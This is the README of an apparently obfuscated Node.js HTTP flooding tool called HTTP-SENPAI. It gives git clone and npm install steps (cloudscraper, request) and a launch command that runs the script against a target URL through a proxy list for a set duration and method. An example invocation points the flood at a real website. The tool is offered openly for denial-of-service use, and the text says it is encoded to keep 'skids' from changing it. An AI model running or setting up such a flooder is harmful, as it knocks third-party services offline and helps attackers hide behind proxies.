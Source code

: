 🧨 This script is encoded to prevent skido change script🧨

#Clone and Install Script

> git clone https://github.com/DarlingSh1337/HTTP-SENPAI/

> cd HTTP-SENPAI


#Installation Tutoriel for Skido

INSTALL NODEJ SAND NPM

apt install nodejs
apt install npm

yum install nodejs
yum install npm


> npm i cloudscraper

> npm i request

> CREATE OR UPDATE HTTP.TXT FILE IN DIRECTORY and pute PROXYLIST on it


#Launch Script

> node hentai.js url proxylist.txt time method

> node hentai.js https://check-host.net/check-http?host=https://www.brazzers.com/join http.txt 60 GET
